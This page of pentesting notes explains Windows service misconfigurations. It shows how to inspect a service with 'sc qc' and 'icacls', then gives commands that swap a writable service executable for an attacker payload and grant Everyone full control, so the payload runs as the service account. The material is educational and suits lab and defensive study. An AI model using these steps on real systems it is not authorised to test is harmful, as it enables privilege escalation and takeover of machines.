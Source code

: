 # Service misconfigurations

Windows services are managed by the **Service Control Manager** (_**SCM**_). The _**SCM**_ is a process that is in charge of the management of the state of services, such as the current status, and any configurations of it.&#x20;

Each service that is present on a Windows machine will have an associated executable which will be ran by the _**SCM**_ whenever a particular service is started. The user account which the service will run as will also be specified.

**View the configuration of a particular service with the `sc qc` command**:

```powershell
C:\> sc qc [service_name]
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: [service_name]
        TYPE               : ...
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : [exec_path] [flags/options]
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : ...
        DEPENDENCIES       :
        SERVICE_START_NAME : [account]
```

The important fields to take note of are `BINARY_PATH_NAME` and `SERVICE_START_NAME`.&#x20;

a) `BINARY_PATH_NAME`: The associated executable

b) `SERVICE_START_NAME`:  The account used to run the service

### Insecure permissions on service executable

Suppose we have found a service with executable that has insecure permissions (eg. `C:\insecure\permissions\bin.exe`). The account is `srv_user`.

```powershell
C:\> sc qc [service_name]
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: windowsscheduler
        TYPE               : ...
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\insecure\permissions\bin.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : [display_name]
        DEPENDENCIES       :
        SERVICE_START_NAME : srv_user
```

The following command (`icacls`) allows us to view the permissions of the executable:

```powershell
C:\>icacls C:\insecure\permissions\bin.exe
C:\insecure\permissions.exe Everyone:(I)(M)
                                  NT AUTHORITY\SYSTEM:(I)(F)
                                  BUILTIN\Administrators:(I)(F)
                                  BUILTIN\Users:(I)(RX)
                                  ...
                                  ...
```

The following line: `Everyone:(I)(M)` shows that the `Everyone` group has modify `(M)` permissons on the service executable. This allows us to overwrite the executable with our own payload and have it run as the privileges of the configured service user account.

The following steps can be taken to replace the original `.exe` file with our own:

1. Use the `move` command to move bin.exe to a backup location (`.exe.bkp`). The new location can have any extensions
2. Move the created payload executable to the file name of the original file (`bin.exe`)
3. Provide full permission `(F)`to the Everyone group. This allows any user to execute this file.

```powershell
C:\> cd C:\insecure\permission

C:\insecure\permission> move bin.exe bin.exe.bkp
        1 file(s) moved.

C:\insecure\permission> move [path_to_created_exe_payload] bin.exe
        1 file(s) moved.

C:\insecure\permission> icacls bin.exe /grant Everyone:F
        Successfully processed 1 files.
```

When the service is started, the executable created by us will be executed.
